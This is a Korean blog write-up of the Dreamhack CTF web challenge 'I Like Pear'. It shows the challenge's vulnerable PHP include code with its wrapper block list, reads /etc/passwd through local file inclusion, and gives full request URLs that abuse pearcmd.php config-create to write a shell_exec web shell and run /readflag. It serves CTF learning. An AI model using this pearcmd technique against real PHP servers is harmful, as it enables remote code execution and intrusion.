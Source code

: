 ```yaml
---
layout: single
title: "[Dreamhack] I Like Pear write-up"
date: 2025-06-12 23:42 +0900
categories: 
    - WEB-write-up
tag:
typora-root-url: ../
toc: true
toc_sticky: true
toc_label: 목차
author_profile: true
comment: true
sidebar:
    nav: "docs"
---
```


## [Dreamhack] I Like Pear

### 문제 설명

- Probably not the pear you're thinking of .. 🤔

<br>

### ✏️ 풀이

먼저 문제 사이트에 접속해보면 아무것도 표시되지 않는다.

![image-20250605140458686](/images/2025-06-05-I-Like-Pear/image-20250605140458686.png)

<br>

소스 코드를 살펴보면, file 파라미터를 get 메소드로 받아와 여러 스키마들을 키워드별로 차단하고 있다. LFI 취약점에 대한 문제인 것 같다.

```php
<?php
    ini_set("session.upload_progress.enabled", "Off");
    ini_set("file_uploads", "Off");
    ini_set('display_errors', '0');

    if(isset($_GET["file"])) {
        if (preg_match("/^(file:|http:|ftp:|zlib:|data:|glob:|phar:|zip:|expect:|php:)/i", $_GET["file"])) {
            die("HAHA... 😀");
        }
        include($_GET["file"]);
    }
?>

```

<br>

file 파라미터에 `/etc/passwd` 를 넣어서 확인해보면 passwd 파일이 잘 출력되는 것을 확인할 수 있다.

![image-20250608180817386](/images/2025-06-05-I-Like-Pear/image-20250608180817386.png)

<br>

Dockerfile을 확인해보니 readflag.c를 컴파일한 readflag 파일에 SetUID가 설정된 것을 알 수 있다.

```docker
FROM php:8.0-apache

RUN apt update && apt install gcc

RUN rm -rf /var/www/html/*

COPY flag.txt /flag.txt
COPY readflag.c /tmp/readflag.c

RUN chmod 440 /flag.txt
RUN gcc /tmp/readflag.c -o /readflag
RUN rm /tmp/readflag.c
RUN chmod 2555 /readflag

COPY src /var/www/html/
RUN chmod 555 /var/www/html

RUN ln -sf /dev/null /var/log/apache2/access.log && \
    ln -sf /dev/null /var/log/apache2/error.log

USER root

EXPOSE 80
```

<br>

/readflag를 file 파라미터에 넣어서 확인해보면 /readflag는 바이너리 파일이라 읽을 수 없어 아래와 같이 오류가 발생한다. 따라서 다른 방법으로 /readflag를 읽어와야 한다.

![image-20250608181449228](/images/2025-06-05-I-Like-Pear/image-20250608181449228.png)

<br>

pear는 (PHP Extension and Application Repository)의 약자로 pearcmd.php라는 파일을 이용해서 LFI 취약점이 있다면 이를 이용해서 문제를 풀 수 있을 것 같다.

<br>
아래 사이트를 참고해서 dockerfile을 빌드해서 확인해보면 pearcmd.php 파일이 `/usr/local/lib/php/pearcmd.php` 경로에 존재하는 것을 알 수 있다. 또한 이는 CLI로 실행되는데 웹 서버 환경에서 실행되기 위해서 아래와 같이 config-create라는 pear의 명령어를 이용해 /tmp/hello.php 파일에 phpinfo 내용이 담기도록 요청할 수 있다.

```
/index.php?+config-create+/&file=/usr/local/lib/php/pearcmd.php&/<?=phpinfo()?>+/tmp/hello.php
```

- https://www.leavesongs.com/PENETRATION/docker-php-include-getshell.html?_x_tr_sl=auto&_x_tr_tl=en&_x_tr_hl=nl&_x_tr_pto=wapp

- https://book.jorianwoltjer.com/languages/php

<br>

burp를 이용해 /tmp/hello.php에 phpinfo를 생성하는 명령을 요청하고 LFI 취약점을 이용해 확인해보면 아래와 같이 phpinfo가 잘 생성된 것을 확인할 수 있다.

![image-20250613163044808](/images/2025-06-05-I-Like-Pear/image-20250613163044808.png)

<br>

하지만 우린 /readflag 를 읽어와야 하기 때문에 phpinfo를 읽어오는게 아닌 /readflag를 실행하여 출력해야 한다. 따라서 아래의 명령으로 /readflag를 실행하여 출력하면 된다.

```php
<?=shell_exec("/readflag")?>
```

<br>

아래처럼 요청하고 잘 읽어보면 flag가 포함되어 출력되는 것을 볼 수 있다.

```
/index.php?+config-create+/&file=/usr/local/lib/php/pearcmd.php&/<?=shell_exec("/readflag")?>+/tmp/hello.php
```

![image-20250613163713332](/images/2025-06-05-I-Like-Pear/image-20250613163713332.png)



<br>

